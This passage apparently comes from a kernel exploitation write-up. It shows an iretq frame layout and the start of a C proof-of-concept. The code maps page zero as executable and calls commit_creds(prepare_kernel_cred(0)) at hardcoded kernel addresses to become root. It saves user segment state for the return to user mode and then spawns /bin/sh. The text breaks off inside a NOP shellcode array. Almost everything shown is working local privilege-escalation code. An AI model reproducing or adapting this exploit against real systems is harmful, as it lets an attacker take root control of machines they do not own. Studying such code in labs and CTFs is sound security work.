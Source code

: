 ```c
swapgs;
iretq;
rip (to &get_shell)
cs
rflags
rsp
ss
```

Here's final PoC code.

```c
#define _GNU_SOURCE

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <string.h>

#include <sys/types.h>
#include <sys/mman.h>

struct cred;
struct task_struct;

typedef struct cred *(*prepare_kernel_cred_t)(struct task_struct *daemon)__attribute__((regparm(3)));
typedef int(*commit_creds_t)(struct cred *new)__attribute__((regparm(3)));

prepare_kernel_cred_t prepare_kernel_cred = (prepare_kernel_cred_t)0xffffffffb26ae2b0;
commit_creds_t commit_creds = (commit_creds_t)0xffffffffb26adf00;

void get_shell() { if (getuid() == 0) system("/bin/sh"); }
void get_root() { commit_creds(prepare_kernel_cred(0)); }

unsigned long user_cs = 0x0;
unsigned long user_ss = 0x0;
unsigned long user_rsp = 0x0;
unsigned long user_rflags = 0x0;

void backup_stat() {  
    asm(
        "movq %%cs, %0\n"
        "movq %%ss, %1\n"
        "pushfq\n"
        "popq %2\n"
        : "=r" (user_cs), "=r" (user_ss), "=r" (user_rflags) ::"memory"
    );
}

int main(int argc, char *argv[]) {
	printf("\e[36m[*] Stage 1 - Allocate 0x0\n");
	
	if (mmap((void *)0, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_ANON | MAP_PRIVATE | MAP_FIXED, -1, 0) == (char *)-1) {
	    perror("mmap()");
		return EXIT_FAILURE;
	}
	
	// opcodes that used in this shellcode need to be changed to gadgets.
	// y can simply get gadgets with ROPgadget tools or anything from vmlinux.
    unsigned char shellcode[] = {
        0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 
```